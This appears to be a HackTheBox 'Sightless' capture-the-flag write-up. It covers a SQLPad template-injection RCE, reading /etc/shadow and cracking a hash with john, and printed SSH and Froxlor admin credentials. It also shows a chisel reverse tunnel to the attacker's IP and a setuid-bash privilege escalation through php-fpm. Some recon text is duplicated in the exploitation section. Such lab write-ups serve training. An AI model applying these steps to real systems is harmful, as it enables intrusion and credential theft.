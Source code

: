 ```yaml
---
sticker: lucide//eye-off
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | FTP     |
| 22   | SSH     |
| 80   |         |

Let's start with reconnaissance.

# RECONNAISSANCE
---

![](images/Pasted%20image%2020250107170937.png)

`echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts 2>/dev/null`

![](images/Pasted%20image%2020250107171213.png)

Now we can access the website, we have a `home`, `about`, `services` and a `contact us` part, if we go to the service part, we can see the following:

![](images/Pasted%20image%2020250107171349.png)

We got a `sqlpad` service, if we click start now, we are redirected to `sqlpad.sightless.htb`, let's add this subdomain to `/etc/hosts` too:

![](images/Pasted%20image%2020250107171612.png)

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](images/Pasted%20image%2020250107172243.png)

Let's check the web and see if there's anything related to this version:

![](images/Pasted%20image%2020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](images/Pasted%20image%2020250107182931.png)


# EXPLOITATION
---

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](images/Pasted%20image%2020250107172243.png)

Let's check the web and see if there's anything related to this version:

![](images/Pasted%20image%2020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](images/Pasted%20image%2020250107182931.png)

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize the shell]], we would think that we already beat the machine since we got root access but no, we are inside of a docker container, we need some sort of way to get into the real machine, that's when we find 2 users, Michael and node:

![](images/Pasted%20image%2020250107183525.png)

![](images/Pasted%20image%2020250107183536.png)


Since we already have root access in the docker container, let's read `/etc/shadow` and get the hash for michael user:

![](images/Pasted%20image%2020250107183633.png)

```ad-note
Michael hash is: 

`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`

----
We need to crack this hash using john, let's do it:

`john hash -w=/usr/share/wordlist/rockyou.txt`

----
This will output: `insaneclownposse`


Let's log into ssh using those credentials:


`michael`:`insaneclownposse`
```



![](images/Pasted%20image%2020250107184751.png)

Now we are inside of michael's account, we can read the user flag now:

```ad-note
![](images/Pasted%20image%2020250107184841.png)
user flag: `fa24b7668682e82a648c821ccf0d9526`
```

# Privilege escalation
---

Let's proceed with privesc.

We'll be using linpeas to show use some possible PE vectors:

![](images/Pasted%20image%2020250107185646.png)

There is a weird connection made to the port `8080`, we need to investigate this, for this, we will use chisel as we need to resend the traffic back to our local machine:

```ad-hint

##### Doing a reverse proxy
---
1. `chisel server -p 9999 --reverse`
2. `chmod +x chisel`
3. `./chisel client 10.10.15.36:9999 R:8080:127.0.0.1:8080`

![](images/Pasted%20image%2020250107192250.png)
![](images/Pasted%20image%2020250107192300.png)

```

Now, let's visit the page:

![](images/Pasted%20image%2020250107192343.png)

It's executing froxlor, in order to get the credentials, we'll be using the following exploit: [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/), this is basically a chrome remote debugger pentest, since the machine is running chrome actively, we can use this to exploit and access the credentials, once we've reproduce all the steps accordingly to the notes, we get the following credentials:

```ad-note

`admin`:`ForlorfroxAdmin`

```


Let's log into the panel:

![](images/Pasted%20image%2020250107193550.png)

We got access to the panel, as seen, we have a php section, this has the following:

![](images/Pasted%20image%2020250107193639.png)

We got `php-fpm`, we are able to execute php code, we can do the following:

```ad-note
1. Create new PHP version
2. `chmod 4777 /bin/bash`
3. Go to `/system/settings/php-fpm`, disable it and enable it again
4. Go to our terminal and perform `/bin/bash -p`
5. Get root shell
```


```ad-important
If we did all correctly, we are able to get root access:

![](images/Pasted%20image%2020250107194238.png)

This is the root flag:

![](images/Pasted%20image%2020250107194255.png)

Root: `1c4c6860beaa42a5b9b8e404fbcbf656`


```
